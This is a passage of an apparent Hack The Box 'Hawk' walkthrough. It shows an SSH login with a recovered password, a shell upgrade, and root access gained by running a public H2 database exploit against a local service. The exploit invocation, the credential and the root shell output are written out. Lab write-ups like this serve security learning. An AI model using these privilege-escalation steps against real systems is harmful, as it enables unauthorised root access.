 This password worked and I was able to ssh as daniel.
`daniel:drupal4hawk`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/hawk]
└─$ ssh daniel@10.10.10.102
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct 22 08:28:22 UTC 2021

  System load:  0.08              Processes:           171
  Usage of /:   48.1% of 7.32GB   Users logged in:     0
  Memory usage: 64%               IP address for eth0: 10.10.10.102
  Swap usage:   23%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

417 packages can be updated.
268 updates are security updates.


Last login: Sun Jul  1 13:46:16 2018 from dead:beef:2::1004
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pty;pty.spawn("/bin/bash")
daniel@hawk:~$ 
```

Running linenum I find that the h2 sever on port 8082 is running as root.

On googling for h2 exploit I found the following [exploit](https://www.exploit-db.com/exploits/45506).

I downloaded the script and transfered it to the victim machine usinh python http server and wget command.

On running the script it gave me a root shell.

```bash
daniel@hawk:/dev/shm$ python3 h2.py -H 127.0.0.1:8082
[*] Attempting to create database
[+] Created database and logged in
[*] Sending stage 1
[+] Shell succeeded - ^c or quit to exit
h2-shell$ whoami
root

h2-shell$ cat /root/root.txt
99a9cae2ff6588d137067c8b6e0785b3
```